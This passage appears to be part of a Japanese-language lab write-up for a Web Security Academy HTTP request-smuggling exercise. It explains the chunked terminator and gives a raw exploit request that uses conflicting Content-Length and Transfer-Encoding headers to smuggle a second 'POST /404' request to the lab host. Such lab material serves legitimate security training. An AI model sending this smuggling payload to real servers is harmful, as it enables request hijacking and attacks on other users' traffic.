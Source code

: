 ![](./images/README_231014_5437.png)

待ちが発生しないようにするには、必要としている`0\r\n\r\n`をつけてあげれば良いです。

### Exploit

`GET /404 HTTP/1.1`誘発させる必要がありますが、これは特に難しくないです。

```text
POST / HTTP/1.1
Host: 0abc00760353b2c5800eee1b000c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

1
a
0

POST /404 HTTP/1.1
S: 
```

![](./images/README_231014_5851.png)
